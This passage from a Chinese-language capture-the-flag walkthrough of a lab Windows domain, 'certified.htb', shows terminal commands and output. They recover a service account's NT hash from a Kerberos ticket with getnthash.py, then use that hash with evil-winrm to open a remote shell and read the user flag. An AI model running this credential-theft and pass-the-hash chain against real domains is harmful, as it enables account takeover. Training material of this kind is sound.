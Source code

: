 设置环境变量

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# export KRB5CCNAME=/home/kali/Certified/PKINITtools/hhh.ccache
                                                    
```

使用 `PKINITtools` 中的 `getnthash.py` 脚本，通过已经获得的 TGT 来请求并恢复 `management_svc` 账户的 NT hash

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# python getnthash.py -key 07229e48b98f6800f3c17aaef3a49815c7b1fff0881969a3756856366a8a87f6 certified.htb/management_svc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/kali/Certified/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/Certified/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

有了NThash就可以使用Evil-winrm远程登录

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# evil-winrm -i certified.htb -u management_svc -H "a091c1832bcdd4677c28b5a6a1295584"
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                         
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\management_svc\desktop> cat user.txt
```

![](./images/image-52.png)
